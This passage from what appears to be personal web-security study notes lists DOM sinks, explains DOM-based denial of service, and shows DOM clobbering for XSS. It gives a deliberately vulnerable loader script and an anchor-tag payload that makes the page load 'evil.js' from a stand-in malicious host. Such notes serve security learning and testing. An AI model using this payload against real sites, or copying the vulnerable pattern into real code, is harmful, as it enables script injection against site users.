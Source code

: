 >- `element.type`
>- `element.backgroundImage`
>- `element.cssText`
>- `element.codebase`
>- `document.title`
>- `document.implementation.createHTMLDocument()`
>- `history.pushState()`
>- `history.replaceState()`

# DOM-based denial of service

DOM-based denial-of-service vulnerabilities arise when a script passes attacker-controllable data in an unsafe way to a problematic platform API, such as an API whose invocation can cause the user's computer to consume excessive amounts of CPU or disk space.

>[!tip]- Common sinks:
>- `requestFileSystem()`
>- `RegExp()`

# DOM clobbering

## Exploiting DOM clobbering to enable XSS

DOM clobbering is an advanced technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the website. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.

>[!tip]
>Most common when you can control some HTML on a page where the attributes `id` or `name` are whitelisted by the HTML filter

Vulnerable code:
```html
<script>
    window.onload = function(){
        let someObject = window.someObject || {}; // vulnerable
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

Payload to inject:
```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```

As the two anchors use the same ID, **the DOM groups them together in a DOM collection**. The DOM clobbering vector then overwrites the `someObject` reference with this DOM collection. A `name` attribute is used on the last anchor element in order to clobber the `url` property of the `someObject` object, which points to an external script.


[^pdf]: [Hunting postMessage Vulnerabilities](https://appcheck-ng.com/wp-content/uploads/Hunting-postMessage-Vulnerabilities.pdf), Gary O’Leary-Steele 
[^46252]: [Who Are You The Importance of Verifying Message Origins - CVE-2023-46252](../../Readwise/Articles/Stefan%20Schiller%20-%20Who%20Are%20You%20The%20Importance%20of%20Verifying%20Message%20Origins.md#^3bbba8); Stefan Schiller, Sonar
[^debug-post-message]: [How to debug postMessages](https://arthurdenner.medium.com/how-to-debug-postmessages-320d50056d0), arthurdenner.medium.com
[^dev-tool-debug]: [67 Weird Debugging Tricks Your Browser Doesn't Want You to Know](../../Readwise/Articles/norbauer.com%20-%2067%20Weird%20Debugging%20Tricks%20Your%20Browser%20Doesn't%20Want%20You%20to%20Know.md), norbauser.com
[^domspy]: [Erik - Last Week in Security (LWiS) - 2025-01-06](../../Readwise/Articles/Erik%20-%20Last%20Week%20in%20Security%20(LWiS)%20-%202025-01-06.md#^5d4fbd)